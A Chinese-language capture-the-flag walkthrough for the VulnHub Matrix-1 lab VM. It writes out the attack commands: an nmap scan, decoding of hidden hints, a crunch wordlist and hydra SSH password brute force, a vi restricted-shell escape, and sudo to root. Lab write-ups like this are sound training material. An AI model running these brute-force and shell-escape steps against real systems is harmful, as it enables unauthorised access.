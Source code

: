 # Matrix-1

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Matrix-1（IP：192.168.56.107）

下载：https://www.vulnhub.com/entry/matrix-1,259/

## Let's go

```
nmap -A 192.168.56.107
```

![](./img/Matrix1-01.png)

> **审查发现一串base64的编码**

![](./img/Matrix1-02.png)

```
echo 'ZWNobyAiVGhlbiB5b3UnbGwgc2VlLCB0aGF0IGl0IGlzIG5vdCB0aGUgc3Bvb24gdGhhdCBiZW5kcywgaXQgaXMgb25seSB5b3Vyc2VsZi4gIiA+IEN5cGhlci5tYXRyaXg=' | base64 -d
```

![](./img/Matrix1-03.png)

![](./img/Matrix1-04.png)

```
cat ./下载/Cypher.matrix
```

![](./img/Matrix1-05.png)

> **虽然看不懂，但是搜索发现是 brainfuck ，我们可以进行解密**
>
> **推荐网站：http://ctf.ssleye.com/brain.html**

![](./img/Matrix1-06.png)

> **我们得到了密码 'k1ll0r\*\*'，虽然不完整但我们可以制作字典进行爆破**

```
crunch 8 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -t k1ll0r@@ -o 1.txt
hydra -l guest -P ./1.txt -vV 192.168.56.107 ssh
```

![](./img/Matrix1-07.png)

> **登录发现我们拿到一个受限的shell，不过 vi 可以使用**

```
:!/bin/bash
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```

![](./img/Matrix1-08.png)

![](./img/Matrix1-09.png)

```
sudo -l
```

![](./img/Matrix1-10.png)

```
sudo sh
cd /root
cat flag.txt
```

![](./img/Matrix1-11.png)